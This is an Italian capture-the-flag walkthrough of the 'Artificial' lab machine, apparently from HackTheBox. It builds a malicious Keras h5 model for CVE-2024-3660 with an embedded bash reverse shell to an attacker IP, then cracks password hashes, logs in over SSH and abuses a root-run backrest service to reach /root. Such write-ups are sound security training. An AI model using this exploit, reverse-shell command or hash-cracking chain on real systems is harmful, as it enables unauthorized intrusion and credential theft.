# Artificial



## Enumerazione Iniziale

Target: 10.x.x.x 

Scansione **nmap** per l'individuazione di porte e servizi accessibili.



Si aggiorna il DNS locale inserendo il record `10.x.x.x artificial.htb`.

```bash

$ echo "10.x.x.x artificial.htb" | sudo tee -a /etc/hosts

```

Si visita l'**URL** `http://artificial.htb`.

## Analisi della Web App

Sembrerebbe essere un applicazione web per la previsione delle future vendite che si basa sull'analisi dello storico delle vendite.





In fondo alla pagina sono presenti dei nomi di utenti che hanno commentato la piattaforma, per ora teniamoli da parte.

- John Doe
- Jane Smith
- Michael Lee

Si procede con la registrazione ed accesso alla piattaforma con le seguenti credenziali:

- **Username**: ap
- **Email**: ap@ap.htb
- **Password**: ap

E si accede alla propria *dashboard*.



La *dashboard* offre la funzionalita' di caricamento di un modello nel formato **h5**. 

Inoltre, sono presenti degli URLs per lo scaricamento di contenuto raccomandato per la costruzione del modello.

- `http://artificial.htb/static/requirements.txt`
- `http://artificial.htb/static/Dockerfile`

Si scaricano entrambi e li si analizzano.



Il file **requirements.txt** contiene la seguente dipendenza:

```text

tensorflow-cpu==2.13.1

``` 

Mentre, il **Dockefile** (\*):

```text

FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
                                                                                                                                                          
```

## Web Exploitation

Per **tensorflow v2.13.1** si e' individuata la **CVE-2024-3660**.

> **CVE-2024-3660**: A arbitrary code injection vulnerability in TensorFlow's Keras framework (<2.13) allows attackers to execute arbitrary code with the same permissions as the application using a model that allow arbitrary code irrespective of the application.

Keras e' legacy-friendly e per questa versione di Tensorflow la vulnerabilita' non e' stata patchata per i modelli nel formato **HDF5**.

A partire dal Dockerfile (\*) si e' definito un ambiente per la costruzione di modelli malevoli da caricare nella piattaforma.



`Dockerfile`

```text

FROM python:3.8-slim

WORKDIR /code

COPY exploit.py .

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash","-c","python3 exploit.py"]

```

Nel container viene costruito il modello eseguendo questo script Python:

`exploit.py`

```python

import tensorflow as tf

def exploit(x):
    import os
    os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.35/9001 0>&1'")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
  
```

Si costruisce il modello `exploit.h5` iniettando del codice che permette di stabilire una **reverse shell** verso la nostra macchina Kali.

Per semplificare il processo di costruzione e testing si e' scritto lo script `run` che crea il container e copia nella macchina Host il file `exploit.h5`.

`run`

```bash

#!/bin/bash
docker build -f Dockerfile -t artificial . && \ 
docker run --name artificial artificial && \ 
docker cp artificial:/code/exploit.h5 . 

```

Si esegue lo script `run` e si ottiene il modello `exploit.h5`.

```bash

$ file CVE-2024-3660/exploit.h5 
CVE-2024-3660/exploit.h5: Hierarchical Data Format (version 5) data

```

Si esegue l'exploit:

1. Si carica il file `exploit.h5`.

    

    Come risultato spunta il tasto **View Predictions** relativo al modello appena caricato.

2. Si avvia un **listener** alla porta 9001.

    ```bash

    $ nc -lvnp 9001 
    
    ```

3. Si esegue il modello caricato con la **View Predictions** e si ottiene una *reverse shell*

    

## user.txt

Nella macchina vittima e' presente la cartella **app/** in cui e' contenuto il codice sorgente dell'applicazione web. 



Si ispeziona il file **users.db**



In **users.hash** sono memorizzate l'hashe delle password recuperate.

Da **app.py** si ha che le password vengono computate con l'algoritmo **MD5**.



Si utilizza **HashCat** per il cracking delle password recuperate.

```bash

$ hashcat -a 0 -m 0 users.hash /usr/share/wordlists/rockyou.txt.gz --show
c99175974b6e192936d97224638a34f8:mattp005numbertwo
bc25b1f80f544c0ab451c02a3dca9fc6:marwinnarak043414036
098f6bcd4621d373cade4e832627b4f6:test

```

Dalla macchina vittima si recuperano gli utenti che hanno accesso alla shell:

```bash

app@artificial:~$ grep -E .*sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
gael:x:1000:1000:gael:/home/gael:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash

```

Le password craccate vengono provate per accedere tramite **SSH** come utente **gael**.

```bash

$ ssh gael@10.x.x.x

```

Si ottiene l'accesso con `gael:mattp005numbertwo` e si recupera la **user.txt**:

```bash

gael@artificial:~$ ls
user.txt

gael@artificial:~$ cat user.txt 
eb71317a4cb015ab49d5da729f718c13

```

## Privilege Escalation

Si prosegue con l'analisi dell'utente *gael* e si individua il file `backrest_backup.tar.gz` alla quale *gael*  puo' accedere ed il cui proprietario e' **root**.



Si ispeziona l'archivio.



Nell'archivio sono presenti due file eseguibili, **backrest** e **restic**.

> Backrest is a web-accessible backup solution built on top of restic. Backrest provides a WebUI which wraps the restic CLI and makes it easy to create repos, browse snapshots, and restore files.
>
> [https://github.com/garethgeorge/backrest](https://github.com/garethgeorge/backrest)

> Restic is a backup program that is fast, efficient and secure.
>
> [https://github.com/restic/restic](https://github.com/restic/restic)

Inoltre, e' presente la cartella nascosta `.config/` che contiene il file `config.json`.

```bash

$ cat backrest/.config/backrest/config.json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}

```

Sembrerebbe essere un file di configurazione per il servizion **backrest**. 

Il file contiene le credenziali dell'utente **backrest_root**.

```bash

$ echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO                                                                                                                                                                        
$ echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d > backrest_root.hash

```

Si utilizza **HashCat** per il cracking della password.

```bash

$ hashcat -a 0 -m 3200 backrest_root.hash /usr/share/wordlists/rockyou.txt.gz --show
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^

```

Si ottengono le seguenti credenziali:

- `backrest_root:!@#$%^`

Dalla documentazione di *backrest* si scopre che si puo' accedere al servizio dal URL `http://localhost:9898` e che utilizza `systemctl`. 

```bash

gael@artificial:~$ ss -l | grep 9898
tcp     LISTEN   0        4096                                        127.0.0.1:9898                                  0.0.0.0:* 

gael@artificial:~$ systemctl status backrest.service 
● backrest.service - Backrest Service
     Loaded: loaded (/etc/systemd/system/backrest.service; enabled; vendor preset: enabled)
     Active: active (running) since Sat 2025-08-30 14:00:01 UTC; 5min ago
   Main PID: 27484
      Tasks: 7 (limit: 4550)
     Memory: 11.4M
     CGroup: /system.slice/backrest.service
             └─27484 /usr/local/bin/backrest

```

Continuando l'analisi si nota che **/usr/local/bin/backrest** possiede i privilegi di **root**.



Questo fa pensare alla possibilita' di poter utilizzare il servizio con privilegi elevati per poter accedere a risorse come `/root`.

Si utilizza il **port forwarding SSH**.

```bash

$ ssh -L 9898:127.0.0.1:9898 gael@10.x.x.x

```

Dalla macchina Kali si accede alla pagina `http://localhost:9898`

Si inseriscono le credenziali di `backrest_root` e si accede al servizio:



Per poter eseguire il backup e' necessario creare un **repository** e un **plan**.

Si e' deciso di costruire il *repository* localmente nella macchina vittima con il programma **restic**.



Costruito nella macchina vittima il *repository* lo si aggiunge a **backrest**.



Si definisce un *plan* per il backup della cartella */root*.



Definito e selezionato il *plan* appena creato, si forza il backup immediato con il pulsante **Backup Now**.

Fatto lo **Snapshot** si ispeziona il contenuto della cartella */root* e si forza il **Restore to Path**.

